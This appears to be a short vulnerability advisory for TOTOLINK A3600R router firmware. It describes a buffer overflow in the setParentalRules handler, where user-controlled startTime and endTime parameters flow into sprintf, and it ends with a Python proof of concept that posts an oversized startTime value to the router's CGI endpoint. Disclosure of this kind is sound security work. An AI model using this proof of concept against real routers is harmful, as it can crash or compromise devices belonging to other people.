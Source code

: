 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setParentalRules` function. The `v12, v13` variable receives the `startTime, endTime` parameter from a POST request. However, since the user can control the input of `startTime, endTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721012935204](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012935204.png)

![image-20240721012839043](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012839043.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setParentalRules",
"addEffect":"0",
"startTime":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
